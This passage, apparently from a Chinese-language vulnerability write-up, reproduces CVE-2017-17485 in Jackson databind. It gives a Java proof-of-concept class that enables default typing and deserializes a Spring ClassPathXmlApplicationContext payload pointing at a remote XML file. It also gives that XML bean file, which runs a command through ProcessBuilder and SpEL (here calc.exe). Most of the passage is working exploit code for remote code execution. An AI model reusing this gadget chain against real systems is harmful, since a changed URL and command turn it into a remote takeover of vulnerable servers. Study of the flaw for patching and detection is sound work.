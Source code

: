 ```plain
    </dependencies>
</project>
```

### 复现

```plain
package CVE201717485;

import com.fasterxml.jackson.databind.ObjectMapper;

import java.io.IOException;

public class PoC {
    public static void main(String[] args)  {

        String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", \"http://127.0.0.1/spel.xml\"]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        try {
            mapper.readValue(payload, Object.class);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

```plain
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg value="calc.exe" />
        <property name="whatever" value="#{ pb.start() }"/>
    </bean>
</beans>
```

指定了java.lang.ProcessBuilder类 写入了所需执行的命令
